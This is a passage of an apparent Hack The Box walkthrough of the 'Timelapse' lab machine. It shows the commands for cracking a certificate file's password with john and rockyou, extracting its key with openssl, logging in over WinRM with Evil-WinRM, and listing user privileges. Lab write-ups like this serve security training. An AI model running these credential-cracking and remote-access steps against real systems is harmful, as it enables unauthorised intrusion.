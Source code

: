 Convert `.pfx` to hash format:

``` bash
pfx2john legacyy_dev_auth.pfx > pfx.hash 
john pfx.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![pfx2john Output](GitHubv2/HackTheBox/EASY/Timelapse/screenshots/pfx2john.png)


Password recovered.

---

### 3.5 Extracting Certificate and Key

``` bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv-key.pem -nodes 
```

![Private Key Hash](GitHubv2/HackTheBox/EASY/Timelapse/screenshots/priv_key_hash.png)

``` bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out certificates.pem
```

![Certificates Hash](GitHubv2/HackTheBox/EASY/Timelapse/screenshots/certificates_hash.png)

---

### 3.6 WinRM over SSL Access

Port 5986 is open (WinRM over SSL). Authenticate using Evil-WinRM:

``` bash
evil-winrm -i 10.10.11.152 -c certificates.pem -k priv-key.pem -S
```

![User Flag](GitHubv2/HackTheBox/EASY/Timelapse/screenshots/user_flag.png)

🏁 **User flag obtained**

---

## 4. Lateral Movement

### 4.1 Enumerating Users & Groups

Check privileges of current user and other accounts:

``` powershell
net user
whoami /priv
net user legacyy
```

![Legacyy User Privileges](GitHubv2/HackTheBox/EASY/Timelapse/screenshots/legacyy_priv.png)
